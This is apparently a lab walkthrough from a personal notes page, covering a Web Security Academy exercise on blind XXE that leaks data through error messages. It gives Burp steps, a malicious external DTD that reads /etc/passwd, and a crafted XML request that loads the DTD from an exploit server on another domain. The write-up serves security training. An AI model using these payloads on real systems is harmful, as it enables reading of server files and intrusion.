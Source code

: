 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516215428.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516222034.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516215502.png)

### Exploiting blind XXE to retrieve data via error messages
```bash

#### This lab has a "Check stock" feature that parses XML input but does not display the result.

#### To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

#### The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Go to: "Go to exploit server"
File: 

/malicious.dtd

Body:

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

Click "Store"
Change:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-ac6c1f911e617b97c03b0e96012e0099.web-security-academy.net/malicious.dtd"> %xxe; ]>
<stockCheck>1<productId>1</productId>
<storeId>1</storeId></stockCheck>

```

